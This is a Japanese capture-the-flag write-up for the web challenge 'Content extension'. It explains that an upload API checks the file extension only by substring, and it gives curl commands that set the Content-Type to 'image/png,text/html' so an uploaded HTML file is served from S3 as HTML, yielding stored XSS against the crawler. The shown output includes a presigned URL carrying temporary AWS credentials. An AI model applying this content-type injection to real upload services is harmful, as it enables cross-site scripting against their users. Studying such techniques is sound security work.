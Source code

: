 # Content extension:Logic Bug:100pts

- [Target](https://d2vz6b0lfzqrg0.cloudfront.net/)

**source code**  

- [Web Application](https://drive.google.com/file/d/1L1cSAPkUCGr9GAdfaoXnOP4f6VMYerqt/view?usp=drive_link)  

※ If no announcement is made, all "Crawler" source codes are the same.  

[https://d2vz6b0lfzqrg0.cloudfront.net/](https://d2vz6b0lfzqrg0.cloudfront.net/)  

# Solution
URLとアプリケーションのソースが渡される。  
クローラは[Server Side Upload](../Server_Side_Upload)と同様で、ファイルアップロードサイトのようだ。  
![site.png](site/site.png)  
ソースの主要部分は以下であった。  
```ts
~~~
server.post<{
  Body: {
    extention: string;
    length: number;
  };
}>('/api/upload', async (request, reply) => {
  if (!request.body.extention || !request.body.length) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  if (request.body.length > 1024 * 1024 * 100) {
    return reply.code(400).send({ error: 'File too large' });
  }

  const denyStringRegex = /[\s\;()]/;

  if (denyStringRegex.test(request.body.extention)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const allowExtention = ['png', 'jpeg', 'jpg', 'gif'];

  const isAllowExtention = allowExtention.filter((ext) => request.body.extention.includes(ext)).length > 0;
  if (!isAllowExtention) {
    return reply.code(400).send({ error: 'Invalid file extention' });
  }

  const contentType = `image/${request.body.extention}`;
  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    ContentLength: request.body.length,
    ContentType: contentType,
  });

  const url = await getSignedUrl(s3, command, {
    expiresIn: 60 * 60 * 24,
    signableHeaders: new Set(['content-type']),
  });
  return reply.header('content-type', 'application/json').send({
    url,
    filename,
  });
});
~~~
```
リクエストの`extention`を検証している。  
正規表現で`/[\s\;()]/`が禁止されており、`['png', 'jpeg', 'jpg', 'gif']`のうちのどれかが含まれている必要がある。  
最終的に`image/`の後ろに結合されている。  
[forward priority...](../forward_priority/)で`,`で区切れることを知ったため、そのテクニックを用いる。  
`png,text/html`を`extention`とすると`image/png,text/html`となり、HTMLとして読み込まれる。  
以下の通りにServer Side Uploadと同じファイルをアップロードする。  
```bash
$ curl -X POST -H 'Content-Type: application/json' -d '{"extention":"png,text/html","length":221}' --upload-file xs3.html 'https://d2vz6b0lfzqrg0.cloudfront.net/api/upload'
{"url":"https://uploadbucket-5b1bc63390-5-upload.s3.ap-northeast-1.amazonaws.com/upload/b0bd10c4-2bcb-477b-abae-17524bd6b544?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4EIBYG5EA%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T061144Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM7%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkgwRgIhAL8TbR3agrOTOsE4l4Abddi5QpVyttVc%2FLSZdbqIXS0pAiEAqBGUQcxr6CRHZU0%2FNZWn9bRRemPcK7NzK75TNHKWJ2MqtwMI5%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARABGgwzMDg1MjE0MDc3MzYiDPPXwr2rsM7jnm8agiqLAw%2Fi52IWJOC7YQUReIuCShHHERT0plrDDs9sQon022blTqLm0JRdojaZvJTmMX40nzyujgy%2BdykfnI9K7LiUgUzoaCnmdjWBqNCpw4WWFGXL8yak%2F1p93ILMG28cAEMWBwXMwwP6yVzK6G8wukTJ1QRMneRj5IPMKdbdUPCQ84OYOOZQuDf0ZSNqwbBHtdMB6v24rzd6gCRkCX3YOYyau2Y3lvwkuQdtVbQt97f9cwoqYzkFSTwiPAknsG40QQjQntxgBQ1OdjRONeJJhSSk5GrQeltqP0bw1nGXMPeC%2B6Bu%2FQkwWyF9%2BUAbkJp7WY3fMOrgiatdGqpXMse4c8cZcvqCBg8cWIptPEs9KmL%2FfS8lqLjD3gSXi6LEBJ7%2BvYdbieiCBLeAs9ThjyBVjaAhH0v9d5GjINVo1Rt27Z%2BdZp%2FX8RQ7cThC0E%2B0g%2FlVC5BXpA2KWrQOO5f3KF%2FYHSmr3vPZlhDDAbo%2BI7%2BusPAWsjAY2Lt1wdIJJWwr6KXoFn7gvYdJKwLx1ATRABNqMJ63mbAGOp0BrjDBQEUoHYRm9v37TQAJVCxCBVTkhtg%2BpAR7Z7uhTyy1NhiqJ40CJN6XDdYJq%2Bfc7lKKI2JblYZ3XIBcrffBRxET%2Br1w3isiy%2B8Am67aZx%2FNoXuObERbGaFhSGg5DzbY%2FFQ0jmVejkXTa%2BW642tBtT%2Bg58vZbD0XSe28SKgwlnzesuhbHRdOj%2FwGSydmZ3cbLyBHJULIeeGxP1oozw%3D%3D&X-Amz-Signature=9712cf966b56da103a4bd424863f64fa5c9ce92c38468fc55141e46bdc3379bb&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject","filename":"b0bd10c4-2bcb-477b-abae-17524bd6b544"}
$ curl -X PUT -H 'Content-Type: image/png,text/html' --upload-file xs3.html 'https://uploadbucket-5b1bc63390-5-upload.s3.ap-northeast-1.amazonaws.com/upload/b0bd10c4-2bcb-477b-abae-17524bd6b544?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=ASIAUPVKPCT4EIBYG5EA%2F20240329%2Fap-northeast-1%2Fs3%2Faws4_request&X-Amz-Date=20240329T061144Z&X-Amz-Expires=86400&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEM7%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaDmFwLW5vcnRoZWFzdC0xIkgwRgIhAL8TbR3agrOTOsE4l4Abddi5QpVyttVc%2FLSZdbqIXS0pAiEAqBGUQcxr6CRHZU0%2FNZWn9bRRemPcK7NzK75TNHKWJ2MqtwMI5%2F%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FARABGgwzMDg1MjE0MDc3MzYiDPPXwr2rsM7jnm8agiqLAw%2Fi52IWJOC7YQUReIuCShHHERT0plrDDs9sQon022blTqLm0JRdojaZvJTmMX40nzyujgy%2BdykfnI9K7LiUgUzoaCnmdjWBqNCpw4WWFGXL8yak%2F1p93ILMG28cAEMWBwXMwwP6yVzK6G8wukTJ1QRMneRj5IPMKdbdUPCQ84OYOOZQuDf0ZSNqwbBHtdMB6v24rzd6gCRkCX3YOYyau2Y3lvwkuQdtVbQt97f9cwoqYzkFSTwiPAknsG40QQjQntxgBQ1OdjRONeJJhSSk5GrQeltqP0bw1nGXMPeC%2B6Bu%2FQkwWyF9%2BUAbkJp7WY3fMOrgiatdGqpXMse4c8cZcvqCBg8cWIptPEs9KmL%2FfS8lqLjD3gSXi6LEBJ7%2BvYdbieiCBLeAs9ThjyBVjaAhH0v9d5GjINVo1Rt27Z%2BdZp%2FX8RQ7cThC0E%2B0g%2FlVC5BXpA2KWrQOO5f3KF%2FYHSmr3vPZlhDDAbo%2BI7%2BusPAWsjAY2Lt1wdIJJWwr6KXoFn7gvYdJKwLx1ATRABNqMJ63mbAGOp0BrjDBQEUoHYRm9v37TQAJVCxCBVTkhtg%2BpAR7Z7uhTyy1NhiqJ40CJN6XDdYJq%2Bfc7lKKI2JblYZ3XIBcrffBRxET%2Br1w3isiy%2B8Am67aZx%2FNoXuObERbGaFhSGg5DzbY%2FFQ0jmVejkXTa%2BW642tBtT%2Bg58vZbD0XSe28SKgwlnzesuhbHRdOj%2FwGSydmZ3cbLyBHJULIeeGxP1oozw%3D%3D&X-Amz-Signature=9712cf966b56da103a4bd424863f64fa5c9ce92c38468fc55141e46bdc3379bb&X-Amz-SignedHeaders=content-length%3Bcontent-type%3Bhost&x-id=PutObject'
```
`https://d2vz6b0lfzqrg0.cloudfront.net/upload/b0bd10c4-2bcb-477b-abae-17524bd6b544`にアクセスすると案の定XSSが発生した。  
クローラへ投げると以下のリクエストが届く。  
```
GET
/?satoki=flag=flag{b1b3fcx5f8b508ff8b03b803affb00d381826047b}
```
flagが得られた。  

## flag{b1b3fcx5f8b508ff8b03b803affb00d381826047b}
